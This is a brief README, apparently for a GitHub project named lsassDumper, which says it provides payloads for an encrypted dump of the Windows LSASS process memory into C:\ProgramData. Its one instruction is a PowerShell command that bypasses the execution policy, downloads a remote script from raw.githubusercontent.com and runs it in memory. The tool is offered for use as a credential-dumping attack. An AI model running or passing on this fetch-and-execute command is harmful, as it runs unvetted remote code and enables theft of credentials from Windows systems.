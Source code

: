 # lsassDumper

This project provide the necessary payloads to perform an encrypted dump of LSASS in C:\ProgramData

Execute :
`powershell -ep bypass -c "iex(iwr -useb https://raw.githubusercontent.com/666reda/lsassDumper/main/inj.txt) ; start-sleep 44"`
